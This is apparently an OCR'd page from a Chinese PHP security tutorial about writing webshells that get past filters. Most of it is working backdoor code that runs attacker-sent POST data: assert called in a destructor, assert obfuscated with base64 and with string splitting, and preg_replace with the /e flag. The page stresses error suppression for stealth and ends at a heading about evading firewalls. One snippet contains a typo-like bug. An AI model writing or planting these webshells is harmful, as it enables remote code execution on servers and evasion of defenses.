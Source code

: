 **利用析构函数**和**面向对象的函数**：

析构函数允许我们在销毁一个对象之前执行一些特定的操作，例如关闭文件、释放结果集等。

```
<?php
class me          //定义一个类
{
public $a='';     //属性
function __destruct(){     //析构函数
assert("$this->a");    //调用a变量里的东西去当做php代码执行
}
}
//初始化me的类
$b = new me;    //新建一个对象
$b->$a=$_POST['a'];     
?>
```

完全屏蔽了assert，**使用base64编码和解码（一次或多次）**：

```
<?php
$a = base64_decode("YXNzZXJ0");   //assert的base64加密
$a($_POST['abc']);
?>
```

**使用拆解：**

```
<?php
$a = "a"."s";
$b = "s"."e"."r"."t";
$c = $a.$b;
$c($_POST['abc']);
?>
```

**使用正则表达式替换**：

```
<?php
function fun(){
return $_POST['a'];
}
@preg_replace("/haha/e",fun(),"haha");    //使用正则表达式，e代表excute执行的意思
?>

//使用正则表达式把haha替换为fun()去执行，而此时后面有一个haha可以被替换执行
```

```
@让php不输出错误，增加隐蔽功能！！！！
```

**让防火墙无法追踪，接力传参**：

